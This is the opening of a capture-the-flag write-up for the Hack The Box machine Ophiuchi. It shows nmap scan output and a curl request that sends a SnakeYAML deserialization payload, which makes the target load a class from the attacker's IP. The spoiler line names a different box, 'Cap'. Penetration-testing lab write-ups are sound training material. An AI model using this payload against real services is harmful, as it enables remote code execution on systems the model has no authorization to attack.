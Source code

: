 ```yaml
---
title: "HTB: Ophiuchi Writeup"
date: 2021-06-07T23:15:00-07:00
categories:
  - blog
  - writeup
  - htb
tags:
  - htb
  - htb medium
  - offsec
---
```


There are spoilers below for the Hack The Box box named Cap. Stop reading here if you do not want spoilers!!!

---

# Enumeration

```
 nmap -sC -sV -oA nmap/ophiuchi 10.10.10.227
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-11 15:39 EDT
Nmap scan report for 10.10.10.227
Host is up (0.078s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6d:fc:68:e2:da:5e:80:df:bc:d0:45:f5:29:db:04:ee (RSA)
|   256 7a:c9:83:7e:13:cb:c3:f9:59:1e:53:21:ab:19:76:ab (ECDSA)
|_  256 17:6b:c3:a8:fc:5d:36:08:a1:40:89:d2:f4:0a:c6:46 (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.38
|_http-title: Parse YAML
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.84 seconds

```


Port 8080 is running a tomcat server with a YAML parser, but when you use it, you receive:

```
Due to security reason this feature has been temporarily on hold. We will soon fix the issue!
```

However, it turns out that it's actually performing the deserialization and simply not displaying the result

```
 curl -i -X POST -d 'data=!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://10.10.14.204/test"]]]]' http://10.10.10.227:8080/yaml/Servlet
```
 